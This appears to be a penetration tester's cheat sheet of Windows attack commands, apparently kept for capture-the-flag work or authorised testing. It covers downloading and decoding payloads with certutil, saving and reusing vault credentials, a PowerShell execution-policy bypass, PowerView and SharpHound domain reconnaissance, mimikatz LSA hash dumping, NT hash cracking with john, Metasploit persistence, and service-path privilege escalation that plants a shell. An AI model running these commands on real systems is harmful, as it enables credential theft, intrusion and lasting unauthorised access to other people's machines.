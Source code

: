 https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

certutil.exe -urlcache -f URL OUTFILE
certutil.exe -urlcache -split -f URL OUTFILE
certutil.exe -decode IN.TXT OUT.exe

xfreerdp /u:USER /p:PASS /cert:ignore /v:RHOST

cmdkey /list
vaultcmd /list
vaultcmd /listcreds:"VAULT"
runas /user:USER /savecred EXECUTABLE

powershell -ep bypass

. .\PowerView.ps1
Get-NetUser | select cn
Get-NetGroup -GroupName *admin*
Get-NetShare
Invoke-ShareFinder
Get-NetComputers
Get-NetComputer -fulldata | select operatingsystem
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain DOMAIN -ZipFileName loot.zip

mimikatz.exe
> privilege::debug
> lsadump::lsa /patch
john crack.me --wordlist=~/wordlists/rockyou.txt --format=NT

use exploit/windows/local/persistence
set session 1

# INSECURE SERVICE PERMISSIONS
C:\PrivEsc\accesschk.exe /accepteula -uwcqv USER SERVICE
sc qc SERVICE
sc config SERVICE binpath="PATH"
net start daclsvc

# UNQUOTED SERVICE PATH
sc qc SERVICE
accesschk.exe /accepteula -uwdq "PATH" 
copy SHELL "PATH"
net start SERVICE